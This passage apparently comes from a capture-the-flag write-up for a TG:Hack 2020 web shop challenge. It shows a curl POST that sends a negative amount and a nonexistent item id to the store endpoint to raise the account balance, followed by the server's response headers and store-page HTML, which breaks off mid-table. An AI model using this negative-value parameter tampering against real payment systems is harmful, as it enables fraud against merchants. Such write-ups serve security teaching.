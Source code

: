   -  Step 3: Hack to increase balance - non existent id and negative amount
```bash
kali@kali:~$ curl -L -i -s -k -X $'POST' --data-binary $'sum=-1337&id=1300' $'https://shop.tghack.no/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/store'
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 14 Apr 2020 15:24:07 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1808
Connection: keep-alive
Strict-Transport-Security: max-age=31536000
X-Frame-Options: DENY
X-Content-Type-Options: nosniff

<html>
    <head>
        <title>Store</title>
<style>
td {
    vertical-align:top;
    padding-right: 10px;
}
</style>
    </head>
    <body>
        <div><a href="/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/bank">bank</a></div>
        <div>
            <table>
                <tr>
    <td>25$</td>
    <td>Shirt</td>
    <td>
        <form action="/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/store" method="POST">
            <input type="hidden" name="sum" value="25">
            <input type="hidden" name="id" value="10">
            <input type="submit" value="Buy">
        </form>
    </td>
</tr>
<tr>
    <td>35$</td>
    <td>Hoodie</td>
    <td>
        <form action="/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/store" method="POST">
            <input type="hidden" name="sum" value="35">
            <input type="hidden" name="id" value="11">
            <input type="submit" value="Buy">
        </form>
    </td>
</tr>
<tr>
    <td>75$</td>
    <td>Poking stick</td>
    <td>
        <form action="/f9e4241fb6aa8f74b878a5898d7e82d5df9142d80bc0a7753806def4bddff343/store" method="POST">
            <input type="hidden" name="sum" value="75">
            <input type="hidden" name="id" value="12">
            <input type="submit" value="Buy">
        </form>
    </td>
```